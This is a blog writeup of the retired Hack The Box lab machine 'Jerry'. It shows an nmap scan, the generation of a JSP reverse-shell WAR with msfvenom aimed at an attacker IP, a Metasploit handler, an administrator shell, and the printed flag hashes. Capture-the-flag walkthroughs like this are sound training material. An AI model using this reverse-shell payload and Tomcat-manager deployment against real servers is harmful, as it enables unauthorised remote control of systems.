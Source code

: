 Title:HTB: Jerry
Date: 09-12-2019 10:25
category:security
tags:security, boot2root, HTB
meta:security, boot2root, HTB

<img class="align-left" src="/media/2019.09/jerry_card.png" alt="Jerry card" width="262">

I started to work on [Hack The Box](www.hackthebox.eu) machine in 2018. This is a writeup for the
retired [Jerry](https://www.hackthebox.eu/home/machines/profile/144) machine.

<!-- PELICAN_END_SUMMARY -->

# Hack the Box

In 2018 I started to play with [Hack the box](www.hackthebox.eu). The principle
is similar to the [vulnhub](https://www.vulnhub.com/about/) machines: You got a
VM and have to root it. The main difference is that you are connected to a VPN 
nd the machines are shared between the users. Also, there is only 20 "active" VM
at a time. At the moment there is a total of 128 VM and therefore 108 retired.
Finally, nobody is publishing Writeup before the VM is retired.

One of the Drawback is that I completely forgot to write and publish this
writeup.

The Jerry machine is Windows server. This VM is classified as a trivial one. In
fact it is a really easy one.

# Network discovery

As usual, we start with a simple network scan using nmap in order to scan the
open TCP ports: Only the port 8080 is open with an HTTP service.

    :::text
    root@kalili:~# nmap -p- 10.10.10.95 -sSV
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-03 17:38 CET
    Nmap scan report for 10.10.10.95
    Host is up (0.019s latency).
    Not shown: 65534 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 112.41 seconds

When going to this page we see a simple Tomcat Application Manager.

![Tomcat application manager](/media/2019.09/jerry_2.png)


# Exploiting the administration interface

We generate a Java reverse shell payload using `msfvenom`:

    :::text
    root@kalili:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.14 LPORT=4444 -f war > reverse2.war

We start the handler using `metasploit`:

    :::text
    msf exploit(multi/handler) > use exploit/multi/handler 
    msf exploit(multi/handler) > show options 

    Module options (exploit/multi/handler):

      Name  Current Setting  Required  Description
      ----  ---------------  --------  -----------


    Payload options (java/jsp_shell_reverse_tcp):

      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.15.14      yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port
      SHELL                   no        The system shell to use.


    Exploit target:

      Id  Name
      --  ----
      0   Wildcard Target

When running the War payload we got a shell as Administrator and we can start
listing the directories looking for the flags:

    :::text
    C:\apache-tomcat-7.0.88>dir c:\Users
    dir c:\Users
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users

    06/18/2018  10:31 PM    <DIR>          .
    06/18/2018  10:31 PM    <DIR>          ..
    06/18/2018  10:31 PM    <DIR>          Administrator
    08/22/2013  05:39 PM    <DIR>          Public
                  0 File(s)              0 bytes
                  4 Dir(s)  27,600,285,696 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\
    dir c:\Users\Administrator\Desktop\
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

    Directory of c:\Users\Administrator\Desktop

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:09 AM    <DIR>          flags
                  0 File(s)              0 bytes
                  3 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>dir c:\Users\Administrator\Desktop\flags
    dir c:\Users\Administrator\Desktop\flags
    Volume in drive C has no label.
    Volume Serial Number is FC2B-E489

As we already are administrator we can read the flag for the two level:

    :::text
    Directory of c:\Users\Administrator\Desktop\flags

    06/19/2018  06:09 AM    <DIR>          .
    06/19/2018  06:09 AM    <DIR>          ..
    06/19/2018  06:11 AM                88 2 for the price of 1.txt
                  1 File(s)             88 bytes
                  2 Dir(s)  27,600,269,312 bytes free

    C:\apache-tomcat-7.0.88>type c:\Users\Administrator\Desktop\flags\2*
    type c:\Users\Administrator\Desktop\flags\2*
    user.txt
    7004dbcef0f854e0fb401875f26ebd00

    root.txt
    04a8b36e1545a455393d067e772fe90e

